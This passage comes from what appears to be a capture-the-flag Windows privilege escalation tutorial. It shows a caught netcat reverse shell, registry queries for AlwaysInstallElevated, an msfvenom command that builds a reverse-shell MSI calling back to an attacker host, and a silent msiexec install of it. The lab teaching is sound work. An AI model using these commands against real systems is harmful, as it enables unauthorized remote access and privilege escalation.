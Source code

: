 And you will receive the reverse shell with taskusr1 privileges as expected:

- **Kali Linux**        

```shell-session
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
        
```

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.

## AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to  install applications on the system. They usually run with the privilege  level of the user that starts it. However, these can be configured to  run with higher privileges from any user account (even unprivileged  ones). This could potentially allow us to generate a malicious MSI file  that would run with admin privileges.

**Note:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

- **Command Prompt**        

```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
        
```

To be able to exploit this vulnerability, both should be set.  Otherwise, exploitation will not be possible. If these are set, you can  generate a malicious .msi file using `msfvenom`, as seen below:

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.143.36 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit  Handler module configured accordingly. Once you have transferred the  file you have created, you can run the installer with the command below  and receive the reverse shell:

- **Command Prompt**        

```shell-session
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
        
```
